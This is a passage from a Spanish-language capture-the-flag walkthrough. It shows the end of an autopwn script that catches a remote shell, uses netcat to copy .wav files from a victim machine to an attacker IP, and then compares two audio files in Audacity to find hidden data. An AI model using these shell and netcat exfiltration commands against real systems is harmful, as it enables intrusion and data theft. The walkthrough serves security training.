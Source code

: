 ```python
    shell = listen(lport, timeout=10).wait_for_connection()

    shell.interactive()
```

Ya lo podemos lanzar con el comando `python3 autopwn.py`

> [ ! ] Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21


### Investigamos la maquina {-}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero `.wav`. Nos lo enviamos
a nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > recov.wav
    ```

1. En la maquina victima

    ```bash
    cp /bin/nc /dev/shm/transfer
    chmod +x /dev/shm/transfer
    /dev/shm/transfer 10.10.14.20 443 < recov.wav
    ```

Hay otros ficheros de tipo `.wav`, usando la misma tecnica nos lo enviamos tambien.
Chequeamos que los ficheros no sa hayan comprometido durante la tansferencia con `md5sum`. Los ficheros `.wav` son ficheros
de tipo audio y se pueden escuchar con el comando `play recov.wav`

No os asusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero `rick.wav` sea la misma cancion y esto es raro. Si le hacemos un `md5sum recov.wav rick.wav`,
vemos que la cancion es la misma pero el **md5sum** no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.


### Reto de steganografia con Audacity {-}

**Audacity** es una heramienta de audio que se puede instalar con `apt install audacity`. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parecen se los mismos pero hemos visto con el **md5sum** que no son iguales, Una cosa que se puede hacer es 
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las diferencias ente
los dos audios.

> [ ! ] Notas para ver como invertir las ondas de un audio, podeis mirar el video al minuto 1:31:00
